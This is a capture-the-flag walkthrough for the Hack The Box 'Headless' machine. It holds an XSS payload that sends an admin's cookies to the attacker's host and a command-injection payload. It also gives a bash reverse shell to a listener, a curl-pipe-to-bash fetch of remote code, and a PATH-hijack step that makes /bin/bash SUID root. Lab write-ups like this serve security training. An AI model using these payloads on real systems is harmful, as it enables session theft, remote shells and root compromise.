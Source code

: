 ```yaml
---
layout: post
section-type: post
has-comments: true
title: Hack The Box - Headless
category: tech
tags: ["tutorial"]
---
```


### Reconnaissance and Initial Steps

##### Nmap Results

```
sudo nmap -Pn -sT -sU -sC -sV 10.10.11.242
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/14b8cd55-fcce-42df-bdf6-9d19d99017d7)

We add headless to /etc/hosts with the corresponding ip address given. Then navigate to `http://headless.htb:5000`


```
echo "10.10.11.8 headless.htb" | sudo tee -a /etc/hosts
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/3bd6636f-3891-49d6-988c-f4de867e7ce6)


##### Directory Enumeration

```
dirsearch -u http://headless.htb:5000
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/5a86b5e0-bb85-4ef3-a558-d560c4c57c70)

We can see that there are two pages available; /support and /dashboard. Let’s visit both of them to find our way into the machine.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/a17cd01d-309a-4ee0-baa7-3855e53f86f5)


To access the /dashboard, we either need to be logged in as a user with elevated privileges (admin) (but I don’t see a login page), or we need to trick the server into believing that we are authorized to access the URL. When considering how to trick the server, I think about providing it with either an admin cookie or an admin session ID.


### Getting Foothold on Headless

We need to provide a payload that can capture the cookies of the admin user who will be reviewing our support queries. The payload will look like this:

```
<script>document.location='http://<Your_Kali_IP>/?cookie='+document.cookie</script>
```

Additionally, we can URL encode this payload by pressing `Ctrl + u`. Along with this payload, we also need to start an HTTP server using the following command:

```
python3 -m http.server 80
```

At this stage, we need to test the XSS payload across all parameters present in the POST request, including message, email, User-Agent, and others. After testing, we'll discover that the same payload must be inserted into two specific parameters: message and User-Agent."

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/dbd01369-141b-45f5-b0d8-884309419e76)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/43e14dec-7e38-4660-9a73-7d54d846e2ca)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/cf518852-8d03-4af4-8e68-00115aa9f45b)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/d3dc3504-3fc2-4b05-89f2-d868462ee8d3)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/39e1ead3-99a7-4407-9864-7b7cd0760252)

After waiting for a minute, we can see that we have received the admin user's cookie. Now, we can add this cookie value to our browser using the inspect element feature or cookie editor add-on.

Navigate to `http://headless.htb:5000/dashboard` to access the Administrator Dashboard. Here, you'll encounter an option to generate the website's health report for a specific date. Let's intercept this request via Burp Suite and transfer another POST request to the repeater tool.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/1ccfa512-d5e0-4659-a0a0-714eba2024b7)


Within the body of this request, locate the date parameter. We'll attempt to detect a command injection vulnerability using this parameter by employing the following payload:

```
&& pwd
```
Additionally, we can URL encode this payload by pressing `Ctrl + u`. Now, let's send the request and check the response, where we will find that the date parameter is vulnerable to command injection.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/8d80e730-3305-4f7e-b23f-43491f7e8440)

I make a file named `payload.sh` with the following inside it.

```
/bin/bash -c 'exec bash -i >& /dev/tcp/10.10.16.18/4444 0>&1'
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/f839669f-b9fe-4b9b-9a63-6856ddb48762)

The IP address should be your IP address, and the port number `/4444` represents the port on which I'm going to open my netcat listener.

```
nc -nlvp 4444
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/8e527634-6ff3-4438-b867-e842a22ac53d)

finally run the Python3 HTTP server to host the file (payload.sh) using the following command

```
python3 -m http.server 8081
```

We want to insert a command that will fetch the payload file we created and run it. Make sure that you have your admin cookie listed in the cookie field. (don't forget `ctrl + u`)

```
curl http://10.10.16.18:8081/payload.sh|bash
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/08581364-7a9a-460a-81f8-4361f07c94d5)


We can see that the payload.sh file is downloaded by the web server and then executed which results in getting a reverse shell on our netcat listener.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/b8328dfb-3cf9-48d3-a726-a77c46c9651e)

get `user.txt`

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/cab10a6a-8533-4e2c-ac9f-b995b150d931)


### Privilege Escalation

Now, let's proceed to gain root access on the target machine. We'll initiate by checking the sudo privileges using the following command:

```
sudo -l
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/e6f89830-4912-4b7b-a2b0-d7f65bc5ab9a)


Upon execution, it's revealed that the `dvir` user possesses permission to execute the `/usr/bin/syschec`k binary as the root user. Let's inspect the contents of this binary.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/6f9a7877-300c-4df9-a061-daef38545a0a)


We'll discover that there's a bash script named `initdb.sh` that is executed without specifying its full path. Exploiting this vulnerability is straightforward; we create a malicious bash script with the same name. Executing the following commands accomplishes this:

```
echo "chmod u+s /bin/bash" > initdb.sh
```

```
chmod +x initdb.sh
```

Upon executing the `syscheck` binary, our malicious script in the current directory takes precedence. This script assigns the SUID bit of the root user to the /bin/bash file. To witness this in action, we run the command:

```
sudo /usr/bin/syscheck
```

Following this command execution, we proceed to execute `/bin/bash` with the owner's (root) privileges using the command:

```
/bin/bash -p
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/42b97909-aee5-4ae1-a7be-649999bfcd83)

After executing the above command, we'll observe that we have successfully escalated our privileges to the `root` user. Consequently, we can effortlessly access the contents of the `root.txt` file.




